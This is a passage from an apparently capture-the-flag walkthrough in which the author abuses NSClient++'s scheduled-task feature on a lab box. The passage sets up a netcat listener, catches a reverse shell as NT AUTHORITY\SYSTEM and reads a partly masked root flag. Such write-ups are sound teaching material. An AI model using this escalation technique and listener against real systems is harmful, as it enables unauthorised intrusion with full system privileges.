After hitting Add, I’ll change edit the form, and then Add again:

![image-20200413125404288](https://0xdfimages.gitlab.io/img/image-20200413125404288.png)

Now `df` shows up as a scheduled task, and I can see it has both key/values:

![image-20200620065935852](https://0xdfimages.gitlab.io/img/image-20200620065935852.png)
1. Go to Control –> Reload. Then Wait. It can take longer than it feels like it should. This box can be very frustrating.

Eventually, a shell comes back:

```

root@kali# rlwrap nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.184.
Ncat: Connection from 10.10.10.184:50376.
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
nt authority\system

```

And I can grab `root.txt`:

```

C:\Users\Administrator\Desktop>type root.txt
c8290a19************************

```